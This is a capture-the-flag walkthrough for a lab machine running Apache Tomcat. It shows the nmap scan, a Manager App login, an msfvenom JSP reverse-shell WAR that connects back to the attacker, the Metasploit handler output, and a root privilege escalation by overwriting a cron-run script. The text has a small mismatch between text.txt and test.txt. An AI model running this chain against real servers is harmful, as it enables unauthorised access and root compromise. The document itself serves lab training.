

# Thompson

## Description

read user.txt and root.txt

## Challenge

`nmap -sV -sC -A 10.10.226.68`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (EdDSA)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
```

1. user.txt

Check http://10.10.226.68:8080 -> `Manager App` -> `admin:admin` ( Failed =) )


Press "Cancel"


Check user/password from this page -> Success!



Create shell

`msfvenom -p java/jsp_shell_reverse_tcp lhost=<attacker_ip> lport=4444 -f war -o shell.war`

Deploy this shell and create handler in msfconsole

`msfconsole -q`
```
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.245.179
lhost => 10.10.245.179
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.245.179:4444
```

After deploying click on this page and you will get shell


```
[*] Command shell session 1 opened (10.10.245.179:4444 -> 10.10.226.68:36808) at 2024-04-04 03:19:04 +0100

whoami
tomcat
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd home
ls
jack
cd jack
ls
id.sh
test.txt
user.txt
cat user.txt
```

2. root.txt

[Optionally] Update shell

```
SHELL=/bin/bash script -q /dev/null
tomcat@ubuntu:/home/jack$
```

Check cron

`cat /etc/crontab`
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
```

`cat id.sh`
```
#!/bin/bash
id > test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```
Script executed by root

Let’s modify the script so that it reads the root flag :

```
echo "
#!/bin/bash 
cat /root/root.txt > text.txt" > id.sh
...
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh


#!/bin/bash 

cat /root/root.txt > text.txt

```

Wait a little bit

```
cat test.txt  
[REDACTED]
```
